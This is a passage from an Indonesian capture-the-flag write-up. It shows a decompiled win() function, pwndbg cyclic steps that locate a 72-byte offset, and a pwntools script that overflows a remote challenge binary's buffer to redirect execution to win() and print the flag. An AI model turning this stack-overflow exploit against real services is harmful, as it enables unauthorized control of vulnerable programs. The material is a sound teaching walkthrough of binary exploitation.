 ```c
void __noreturn win()
{
  char s[100]; // [esp+8h] [ebp-70h] BYREF
  FILE *stream; // [esp+6Ch] [ebp-Ch]

  stream = fopen("/flag.txt", "r");
  if ( !stream )
  {
    puts("Flag file not found!");
    exit(1);
  }
  fgets(s, 100, stream);
  printf("Admin Mode Baik Ni Flagnya Ngab: %s", s);
  fclose(stream);
  exit(0);
}
```

- Lakukan cyclic untuk mendapatkan offset ke saved $EBP.

```bash
pwndbg -q ./chall
break *vuln+47
break *vuln+81
cyclic 100
run
ni
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

continue
saaa
cyclic -l saaa
Found at offset 72
```

- Oke, langsung saja kita buat solver script-nya.

```python
from pwn import *

context.binary = ELF("./chall", checksec=True)
exe = context.binary
host, port = "195.154.94.231", 50151

io = remote(host, port)
io.recvline()

payload = flat(
	b"A"*72,
	p32(0xdeadbeef),
	p32(exe.symbols['win']),
)
io.sendline(payload)
io.interactive()
```
